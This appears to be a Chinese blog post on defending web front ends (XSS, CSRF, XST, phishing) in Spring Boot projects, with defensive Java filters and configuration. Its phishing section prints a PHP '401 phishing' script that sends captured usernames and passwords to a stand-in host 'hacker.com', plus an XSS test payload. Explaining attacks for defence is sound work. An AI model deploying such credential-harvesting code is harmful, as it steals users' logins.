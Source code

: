```yaml
---
title: 主流web前端安全需要防范的点
categories:
  - javascript
date: 2020-04-13 20:05:22
tags:
---
```


## 概述

我们的web应用项目分为两类，只内网可访问项目和外网可访问项目，内网项目因为有防火墙策略，可以暂缓对前端安全的审查，但外网项目需要注意很多前端安全风险，这些风险会被黑客利用，轻则篡改网页内容，重则窃取网站内部数据，更为严重的则是在网页中植入恶意代码，使得用户受到侵害。常见的安全漏洞如下：

- XSS 攻击：对 Web 页面注入脚本，使用 JavaScript 窃取用户信息，诱导用户操作。
- CSRF 攻击：伪造用户请求向网站发起恶意请求。
- 钓鱼攻击：利用网站的跳转链接或者图片制造钓鱼陷阱。
- HTTP参数污染：利用对参数格式验证的不完善，对服务器进行参数注入攻击。
- 远程代码执行：用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令。

值得注意的是，这些安全隐患虽然是从前端发起攻击，但实质的防范是需要后端的协助，一般后端框架本身会提供集成方案来解决这些风险，如Spring Security，我们以团队主流的框架spring boot为例，自检是否有被注意到（因为我并不会java，但会其他后端技术，因为原理是一样的，框架的实现也都是大同小异的，所以按照我提供的方案去找下你们自己框架的，肯定是可以直接用的直接用的方法配置的）。

## 安全威胁XSS的防范

### 简介
XSS（cross-site scripting跨域脚本攻击）攻击是最常见的 Web 攻击，其重点是『跨域』和『客户端执行』。
XSS 攻击一般分为两类：
- Reflected XSS（反射型的 XSS 攻击）
- Stored XSS（存储型的 XSS 攻击）
对XSS攻击的防范，核心是转义，使XSS攻击代码失效。

### 反射型 XSS 及其防范
反射型的 XSS 攻击，主要是由于服务端接收到客户端的不安全输入，在客户端触发执行从而发起 Web 攻击。比如：

在某购物网站搜索物品，搜索结果会显示搜索的关键词。搜索关键词填入`<script>alert('handsome boy')</script>`, 点击搜索。页面没有对关键词进行过滤，这段代码就会直接在页面上执行，弹出 alert。

**防范措施**

特殊字符进行转义操作，例如将 < > /等特殊字符转换成html支持的 < >等，这样显示到页面的时候还是那些内容但是不会当成脚本执行了。
这种方式我们用到了SpringFramework自带的HtmlUtils.htmlEscape方法进行替换。

### 存储型 XSS 及其防范

基于存储的 XSS 攻击，是通过提交带有恶意脚本的内容存储在服务器上，当其他人看到这些内容时发起 Web 攻击。

最主要的传参方式之一的表单交互，对参数进行过滤：
```java
package cn.pconline.pcloud.admin.config;

import javax.servlet.*;
import javax.servlet.annotation.WebFilter;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;

@WebFilter(filterName = "xssFilter", urlPatterns = "/*", asyncSupported = true)
public class XssFilter implements Filter {

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain)
            throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) request;
        XssAndSqlHttpServletRequestWrapper xssRequestWrapper = new XssAndSqlHttpServletRequestWrapper(req);
        chain.doFilter(xssRequestWrapper, response);
    }

    @Override
    public void destroy() {

    }
}
```

考虑到在现在的开发中，更多的是使用json类型做数据交互，所以对json的过滤也是必不可少的，这里是通过修改SpringMVC的json序列化来达到过滤xss的目的：

```java
import com.fasterxml.jackson.core.JsonGenerator;
import com.fasterxml.jackson.databind.JsonSerializer;
import com.fasterxml.jackson.databind.SerializerProvider;
import org.apache.commons.text.StringEscapeUtils;
import java.io.IOException;
public class XssStringJsonSerializer extends JsonSerializer<String> {
	@Override
 	public Class<String> handledType() {
 	return String.class;
}
 	@Override
public void serialize(String value, JsonGenerator jsonGenerator,
 	SerializerProvider serializerProvider) throws IOException {
 		if (value != null) {
 		String encodedValue = StringEscapeUtils.escapeHtml4(value);
 		jsonGenerator.writeString(encodedValue);
 		}
 	}
}
```

### JSONP XSS
JSONP 的 callback 参数非常危险，他有两种风险可能导致 XSS

- callback 参数意外截断js代码，特殊字符单引号双引号，换行符均存在风险。
- callback 参数恶意添加标签（如 <script> ），造成 XSS 漏洞。

因为我对项目的规定是前端项目禁止使用jsonp，所以这一点可以忽略。

### 其他 XSS 的防范方式
浏览器自身具有一定针对各种攻击的防范能力，他们一般是通过开启 Web 安全头生效的。框架内置了一些常见的 Web 安全头的支持。

- CSP
W3C 的 Content Security Policy，简称 CSP，主要是用来定义页面可以加载哪些资源，减少 XSS 的发生。

框架内支持 CSP 的配置，不过是默认关闭的，开启后可以有效的防止 XSS 攻击的发生。要配置 CSP , 需要对 CSP 的 policy 策略有了解，具体细节可以参考 CSP 是什么。

- X-Download-Options:noopen
默认开启，禁用 IE 下下载框Open按钮，防止 IE 下下载文件默认被打开 XSS。

- X-Content-Type-Options:nosniff
禁用 IE8 自动嗅探 mime 功能例如 text/plain 却当成 text/html 渲染，特别当本站点 serve 的内容未必可信的时候。

- X-XSS-Protection
IE 提供的一些 XSS 检测与防范，默认开启

close 默认值false，即设置为 1; mode=block


## 安全威胁 CSRF 的防范

### 概述
CSRF（Cross-site request forgery跨站请求伪造，也被称为 One Click Attack 或者 Session Riding，通常缩写为 CSRF 或者 XSRF，是一种对网站的恶意利用。 CSRF 攻击会对网站发起恶意伪造的请求，严重影响网站的安全。因此框架内置了 CSRF 防范方案。

### 防范方式
通常来说，对于 CSRF 攻击有一些通用的防范方案，简单的介绍几种常用的防范方案：

- Synchronizer Tokens：通过响应页面时将 token 渲染到页面上，在 form 表单提交的时候通过隐藏域提交上来。
- Double Cookie Defense：将 token 设置在 Cookie 中，在提交 post 请求的时候提交 Cookie，并通过 header 或者 body 带上 Cookie 中的 token，服务端进行对比校验。
- Custom Header：信任带有特定的 header（例如 X-Requested-With: XMLHttpRequest）的请求。这个方案可以被绕过，所以 rails 和 django 等框架都放弃了该防范方式。

Spring Security具有出色的CSRF支持，如果您正在使用Spring MVC的<form:form>标签或Thymeleaf @EnableWebSecurity，默认情况下处于启用状态，CSRF令牌将自动添加为隐藏输入字段。代码示例如下：

```java
 @EnableWebSecurity
public class WebSecurityConfig extends WebSecurityConfigurerAdapter {
    @Override
    protected void configure(HttpSecurity http) throws Exception {
        http
            .csrf()
                .csrfTokenRepository(CookieCsrfTokenRepository.withHttpOnlyFalse());
    }
}
```

Session vs Cookie 存储：默认配置下，框架会将 CSRF token 存在 Cookie 中，以方便 AJAX 请求获取到。但是所有的子域名都可以设置 Cookie，因此当我们的应用处于无法保证所有的子域名都受控的情况下，存放在 Cookie 中可能有被 CSRF 攻击的风险。所以在子域名存在并不受控的情况下，用 Session 存储csrf token更为保险。

## XST

### 概述
XST 的全称是 Cross-Site Tracing，客户端发 TRACE 请求至服务器，如果服务器按照标准实现了 TRACE 响应，则在 response body 里会返回此次请求的完整头信息。通过这种方式，客户端可以获取某些敏感的头字段，例如 httpOnly 的 Cookie。

拓展阅读
http://www.w3.org/Protocols/rfc2616/rfc2616-sec9.html
http://deadliestwebattacks.com/2010/05/18/cross-site-tracing-xst-the-misunderstood-vulnerability/

### 防范方式
禁止 trace，track，options 三种危险类型请求。

## 钓鱼攻击
钓鱼有多种方式，这里介绍 url 钓鱼、图片钓鱼和 iframe 钓鱼。

### url 钓鱼

服务端未对传入的跳转 url 变量进行检查和控制，可能导致可恶意构造任意一个恶意地址，诱导用户跳转到恶意网站。 由于是从可信的站点跳转出去的，用户会比较信任，所以跳转漏洞一般用于钓鱼攻击，通过转到恶意网站欺骗用户输入用户名和密码盗取用户信息，或欺骗用户进行金钱交易； 也可能引发的 XSS 漏洞（主要是跳转常常使用 302 跳转，即设置 HTTP 响应头，Locatioin: url，如果 url 包含了 CRLF，则可能隔断了 HTTP 响应头，使得后面部分落到了 HTTP body，从而导致 XSS 漏洞）。

### 防范方式

- 若跳转的 url 事先是可以确定的，包括 url 和参数的值，则可以在后台先配置好，url 参数只需传对应 url 的索引即可，通过索引找到对应具体 url 再进行跳转；
- 若跳转的 url 事先不确定，但其输入是由后台生成的（不是用户通过参数传人），则可以先生成好跳转链接然后进行签名；
- 若 1 和 2 都不满足，url 事先无法确定，只能通过前端参数传入，则必须在跳转的时候对 url 进行按规则校验：判断 url 是否在应用授权的白名单内。

框架提供了安全跳转的方法，可以通过配置跳转白名单避免这种风险，spring boot中

### 图片钓鱼

如果可以允许用户向网页里插入未经验证的外链图片，这有可能出现钓鱼风险。

比如常见的 401钓鱼, 攻击者在访问页面时，页面弹出验证页面让用户输入帐号及密码，当用户输入之后，帐号及密码就存储到了黑客的服务器中。 通常这种情况会出现在<img src=$url />中，系统不对$url是否在域名白名单内进行校验。

攻击者可以在自己的服务器中构造以下代码：

401.php：作用为弹出 401 窗口，并且记录用户信息。
```php
<?php
    header('WWW-Authenticate: Basic realm="No authorization"');
    header('HTTP/1.1 401 Unauthorized');
        $domain = "http://hacker.com/fishing/";
        if ($_SERVER[sectech:'PHP_AUTH_USER'] !== null){
            header("Location: ".$domain."record.php?a=".$_SERVER[sectech:'PHP_AUTH_USER']."&b=".$_SERVER[sectech:'PHP_AUTH_PW']);
        }
?>
```
之后攻击者生成一个图片链接<img src="http://xxx.xxx.xxx/fishing/401.php?a.jpg//" />。

当用户访问时，会弹出信息让用户点击，用户输入的用户名及密码会被黑客的服务器偷偷记录。

### 防范方式

做 url 过滤

### iframe 钓鱼

iframe 钓鱼，通过内嵌 iframe 到被攻击的网页中，攻击者可以引导用户去点击 iframe 指向的危险网站，甚至遮盖，影响网站的正常功能，劫持用户的点击操作。

HTTP 提供了 X-Frame-Options 这个安全头来防止 iframe 钓鱼。默认值为 SAMEORIGIN，只允许同域把本页面当作 iframe 嵌入。

当需要嵌入一些可信的第三方网页时，可以关闭这个配置，不过这也就会导致安全隐患，我的建议是第三方网站使用nginx反向代理重写url，然后继续加这个 HTTP 头。
